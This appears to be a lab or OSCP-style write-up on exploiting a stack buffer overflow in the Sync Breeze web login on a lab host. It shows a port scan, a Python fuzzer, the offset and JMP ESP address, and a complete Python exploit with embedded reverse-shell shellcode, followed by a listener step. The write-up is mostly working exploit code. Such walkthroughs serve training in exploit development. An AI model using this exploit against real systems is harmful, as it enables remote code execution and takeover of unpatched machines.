 # sync breeze

![image.png](<../../../../.gitbook/assets/image (2).png>)

*   **Scan machine**

    we start to scan port number by using `unicornscan` tool which is faster than nmap. you can install it by this command `sudo apt install unicornscan`

    ![Screenshot 2025-03-13 231202.png](<../../../../.gitbook/assets/Screenshot_2025 03 13_231202.png>)

    ```bash
    sudo unicornscan -ImT 10.0.2.4:1-2000 # 1-2000 scan ports from 1 to 2000
    ```

    we discovered this ports is open let’s know what’s the service is running for each port

<figure><img src="../../../../.gitbook/assets/Screenshot_2025 03 13_231202.png" alt=""><figcaption></figcaption></figure>

after search we find this is old version which is vulnerable to BOF so lets download this service and try to exploit it in our services

*   **Fuzzing**

    open the browser and Wireshark tool then show the request was sent

    ![Screenshot 2025-03-13 231447.png](<../../../../.gitbook/assets/Screenshot_2025 03 13_231447.png>)

    try to create python code to smash the vulnerable machine

    ```bash
    #!/bin/python3
    import socket
    import sys
    import time
    target_ip = "10.0.2.4"
    target_port = 80  
    l = 100
    step = 100 
    while True:
        try:
            payload = "username=" + "A" * l + "&password=1234"
            request=""
            request+="POST /login HTTP/1.1\r\n"
            request+="Host: 10.0.2.4\r\n"
            request+="User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0\r\n"
            request+="Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
            request+="Accept-Language: en-US,en;q=0.5\r\n"
            request+="Accept-Encoding: gzip, deflate\r\n"
            request+="Content-Type: application/x-www-form-urlencoded\r\n"
            request+=f"Content-Length: {len(payload)}\r\n"
            request+="Origin: http://10.0.2.4"
            request+="Connection: keep-alive\r\n"
            request+="Referer: http://10.0.2.4/login\r\n"
            request+="Upgrade-Insecure-Requests: 1\r\n"
            request+="Priority: u=0, i\r\n"
            request+="\r\n"
            request+=payloadS

            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((target_ip, 80))
            print(f"Sending {l} bytes...")
            s.send(request.encode())
            response = s.recv(1024) 
            print(f"Response: {response.decode(errors='ignore')}")
            s.close()
            print(f"Trying payload size: {l} bytes...")
            l += step
            time.sleep(1)
        except Exception as e:
            print(f"Fuzzing crashed at {l} bytes")
            sys.exit()
    ```

    run this script and we will notice this machine is crashed after 800 char sent

    ![1.png](../../../../.gitbook/assets/1.png)
*   **locate offset**

    create offset by using Metasploit

<figure><img src="../../../../.gitbook/assets/image 2 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
./pattern_create.rb -l 800
```

then send it by python script we will notice this machine is crashed

<figure><img src="../../../../.gitbook/assets/image 3 (1) (1).png" alt=""><figcaption></figcaption></figure>

and the offset is 780

let’s know which is four is overwrite in EIP

![3.png](../../../../.gitbook/assets/3.png)

*   **Hijack execution**

    use `nasm shell` tool to transfer **JMP ESP** to op code

<figure><img src="../../../../.gitbook/assets/image 4 (1) (1).png" alt=""><figcaption></figcaption></figure>

use mona to search on this code we found this add `10090C83`

after transfer this address to **Little Endian**

<figure><img src="../../../../.gitbook/assets/image 5 (1).png" alt=""><figcaption></figcaption></figure>

```python
#!/bin/python3
import socket
import sys
import time

target_ip = "10.0.2.4"
target_port = 80   

add = b"A" * 780 + b"\x83\x0C\x09\x10" + b"C" * 16
payload = b"username=" + add + b"&password=1234"

request = b"POST /login HTTP/1.1\r\n"
request += b"Host: 10.0.2.4\r\n"
request += b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0\r\n"
request += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
request += b"Accept-Language: en-US,en;q=0.5\r\n"
request += b"Accept-Encoding: gzip, deflate\r\n"
request += b"Content-Type: application/x-www-form-urlencoded\r\n"
request += b"Content-Length: " + str(len(payload)).encode() + b"\r\n"
request += b"Origin: http://10.0.2.4\r\n"
request += b"Connection: close\r\n"
request += b"Referer: http://10.0.2.4/login\r\n"
request += b"Upgrade-Insecure-Requests: 1\r\n"
request += b"Priority: u=0, i\r\n"
request += b"\r\n"
request += payload  

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))
s.sendall(request)  
response = s.recv(4096)
print(f"Response: {response.decode(errors='ignore')}")
s.close()
```

*   **craft shellcode**

    discover bad characters then generate a shell code&#x20;

<figure><img src="../../../../.gitbook/assets/image 6.png" alt=""><figcaption></figcaption></figure>

<pre class="language-python"><code class="lang-python"><strong>#!/bin/python3
</strong>import socket
import sys
import time
target_ip = "10.0.2.4"
target_port = 80   

# ESP add 10090C83

buf =  b""
buf += b"\xd9\xc4\xd9\x74\x24\xf4\x5d\xba\xc3\xd9\xbf\x94"
buf += b"\x29\xc9\xb1\x52\x31\x55\x17\x83\xed\xfc\x03\x96"
buf += b"\xca\x5d\x61\xe4\x05\x23\x8a\x14\xd6\x44\x02\xf1"
buf += b"\xe7\x44\x70\x72\x57\x75\xf2\xd6\x54\xfe\x56\xc2"
buf += b"\xef\x72\x7f\xe5\x58\x38\x59\xc8\x59\x11\x99\x4b"
buf += b"\xda\x68\xce\xab\xe3\xa2\x03\xaa\x24\xde\xee\xfe"
buf += b"\xfd\x94\x5d\xee\x8a\xe1\x5d\x85\xc1\xe4\xe5\x7a"
buf += b"\x91\x07\xc7\x2d\xa9\x51\xc7\xcc\x7e\xea\x4e\xd6"
buf += b"\x63\xd7\x19\x6d\x57\xa3\x9b\xa7\xa9\x4c\x37\x86"
buf += b"\x05\xbf\x49\xcf\xa2\x20\x3c\x39\xd1\xdd\x47\xfe"
buf += b"\xab\x39\xcd\xe4\x0c\xc9\x75\xc0\xad\x1e\xe3\x83"
buf += b"\xa2\xeb\x67\xcb\xa6\xea\xa4\x60\xd2\x67\x4b\xa6"
buf += b"\x52\x33\x68\x62\x3e\xe7\x11\x33\x9a\x46\x2d\x23"
buf += b"\x45\x36\x8b\x28\x68\x23\xa6\x73\xe5\x80\x8b\x8b"
buf += b"\xf5\x8e\x9c\xf8\xc7\x11\x37\x96\x6b\xd9\x91\x61"
buf += b"\x8b\xf0\x66\xfd\x72\xfb\x96\xd4\xb0\xaf\xc6\x4e"
buf += b"\x10\xd0\x8c\x8e\x9d\x05\x02\xde\x31\xf6\xe3\x8e"
buf += b"\xf1\xa6\x8b\xc4\xfd\x99\xac\xe7\xd7\xb1\x47\x12"
buf += b"\xb0\xb7\x97\x1e\x45\xa0\x95\x1e\x44\x8b\x13\xf8"
buf += b"\x2c\xfb\x75\x53\xd9\x62\xdc\x2f\x78\x6a\xca\x4a"
buf += b"\xba\xe0\xf9\xab\x75\x01\x77\xbf\xe2\xe1\xc2\x9d"
buf += b"\xa5\xfe\xf8\x89\x2a\x6c\x67\x49\x24\x8d\x30\x1e"
buf += b"\x61\x63\x49\xca\x9f\xda\xe3\xe8\x5d\xba\xcc\xa8"
buf += b"\xb9\x7f\xd2\x31\x4f\x3b\xf0\x21\x89\xc4\xbc\x15"
buf += b"\x45\x93\x6a\xc3\x23\x4d\xdd\xbd\xfd\x22\xb7\x29"
buf += b"\x7b\x09\x08\x2f\x84\x44\xfe\xcf\x35\x31\x47\xf0"
buf += b"\xfa\xd5\x4f\x89\xe6\x45\xaf\x40\xa3\x76\xfa\xc8"
buf += b"\x82\x1e\xa3\x99\x96\x42\x54\x74\xd4\x7a\xd7\x7c"
buf += b"\xa5\x78\xc7\xf5\xa0\xc5\x4f\xe6\xd8\x56\x3a\x08"
buf += b"\x4e\x56\x6f"

add = b"A" * 780 + b"\x83\x0C\x09\x10" + b"\x90" * 32+buf
payload = b"username=" + add + b"&#x26;password=1234"

request = b"POST /login HTTP/1.1\r\n"
request += b"Host: 10.0.2.4\r\n"
request += b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0\r\n"
request += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
request += b"Accept-Language: en-US,en;q=0.5\r\n"
request += b"Accept-Encoding: gzip, deflate\r\n"
request += b"Content-Type: application/x-www-form-urlencoded\r\n"
request += b"Content-Length: " + str(len(payload)).encode() + b"\r\n"
request += b"Origin: http://10.0.2.4\r\n"
request += b"Connection: close\r\n"
request += b"Referer: http://10.0.2.4/login\r\n"
request += b"Upgrade-Insecure-Requests: 1\r\n"
request += b"Priority: u=0, i\r\n"
request += b"\r\n"
request += payload  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))
s.sendall(request)  
response = s.recv(4096)  
print(f"Response: {response.decode(errors='ignore')}")
s.close()
</code></pre>

*   **execute shellcode**

    open listener on port 443

<figure><img src="../../../../.gitbook/assets/image 7.png" alt=""><figcaption></figcaption></figure>

